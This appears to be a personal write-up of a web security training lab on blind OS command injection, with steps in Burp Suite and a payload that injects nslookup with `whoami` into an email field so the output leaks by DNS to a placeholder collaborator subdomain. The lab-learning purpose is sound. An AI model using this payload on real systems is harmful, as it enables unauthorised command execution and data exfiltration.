





## Lab: Blind OS command injection with out-of-band data exfiltration
 
**Vulnerability**
Blind OS command injection in the feedback function. Async execution, no output redirection possible.
 
**Goal**
Execute `whoami` and exfiltrate the output via a DNS query to Burp Collaborator.
 
### Steps
 
1. Intercept the feedback request in Burp, send to Repeater.
  - 
  
2. Go to **Burp > Collaborator** tab → **Copy to clipboard** to get a unique subdomain.
   - 
3. Modify the `email` parameter using command substitution:
```
   email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```
   `whoami` runs first, its output gets prepended as a subdomain to the DNS query — that's the exfiltration.
  - 
 
4. URL-encode (`Ctrl+U`) and send.
5. Go back to **Collaborator** tab → **Poll now** (wait a few seconds if nothing shows, execution is async).
   - 
6. Check the **Description** tab of the interaction — full looked-up domain shows the exfiltrated username, e.g. `peter-XXXX.xxxxxxxxxxxxx.oastify.com`.
    - peter-0ivaf2
7. Enter the extracted username into the lab's completion field to solve it.
  - 